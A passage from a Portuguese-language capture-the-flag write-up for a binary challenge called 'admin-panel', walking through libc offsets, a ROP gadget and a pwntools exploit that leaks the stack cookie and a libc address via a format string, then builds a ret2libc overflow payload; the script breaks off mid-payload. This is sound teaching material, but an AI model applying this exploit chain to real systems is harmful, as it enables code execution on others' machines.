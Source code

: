 Procurando o offset de `system` dentro da libc:

![admin-panel8](/images/davi-post-pwn/admin-panel/admin-panel8.png)

`system` está no offset `0x44af0`. Vamos salvar isso:
```python
system_offset = 0x44af0
```

`"/bin/sh"` está no offset `18052c`:

![admin-panel9](/images/davi-post-pwn/admin-panel/admin-panel9.png)

```python
bin_sh_offset = 0x18052c
```

Então sabemos o endereço de `system` e o endereço da string `"/bin/sh"`. No entanto, precisamos colocar a string `"/bin/sh"` no registrador `rdi` ao chamar a função `system`. Podemos conseguir isso usando ROP. Vamos procurar alguns gadgets usando `ROPgadget`

O comando é: `ROPgadget --binary libc.so.6 --ropchain | grep "pop rdi"` \
`[+] Gadget found: 0x23a5f pop rdi ; ret` \
Vamos também salvá-lo:
```python
pop_rdi_ret_offset = 0x23a5f
```

Ótimo! Isso é tudo o que precisamos :)

Em conclusão, estamos preenchendo todo o buffer `report`, sobrescrevendo o stack cookie, colocando qualquer coisa no registrador `rbp`, sobrescrevendo o endereço de retorno com a instrução `pop rdi ; ret` para colocar a string `"/bin/sh"` no registrador `rdi`, colocando o endereço da string `"/bin/sh"` (o entrypoint da libc + o offset que encontramos) logo depois para que `pop rdi` funcione corretamente, e então colocando o endereço de `system` (o entrypoint da libc + o endereço que encontramos) depois para que `ret` retorne para ele :)

Esta é a minha solução para este desafio:

```python
from pwn import *

libc_start_main_offset = 0x000000000002409b
pop_rdi_ret_offset = 0x23a5f
system_offset = 0x44af0
bin_sh_offset = 0x18052c

p = process("./admin-panel_patched")
p.recvline()
p.recvline()
p.sendline(b"admin")
p.recvline()
p.sendline(b'secretpass123aaaaaaaaaaaaaaaaaaa%15$p,%17$p')
p.recvline()

leak_addr = p.recvline().decode()[:-1].split(',')
stack_cookie = int(leak_addr[0], 16)
libc_leak = int(leak_addr[1], 16)
print(f"stack cookie is: {hex(stack_cookie)}")
print(f"leaked address is: {hex(libc_leak)}")

libc_entrypoint = libc_leak - libc_start_main_offset
pop_rdi_ret = libc_entrypoint + pop_rdi_ret_offset

payload = b'aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaa'
payload += p64(stack_cookie)
payload += p64(0xdeadbeef)
payload += p64(pop_rdi_ret)
payload += p64(bin_sh_offset + libc_entrypoint)
```